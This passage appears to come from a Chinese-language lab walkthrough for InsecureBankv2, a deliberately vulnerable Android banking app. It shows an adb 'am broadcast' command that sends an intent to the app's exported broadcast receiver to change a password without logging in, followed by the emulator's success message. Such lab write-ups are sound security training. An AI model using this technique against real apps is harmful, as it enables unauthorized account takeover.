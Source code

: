 -  输入下面的命令（绕过登录直接修改密码）

    ```bash
    am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
    ```

    ![am](img/am.png)

-  avd中收到回复 修改成功

    ![avdsuccess](img/avdsuccess.png)
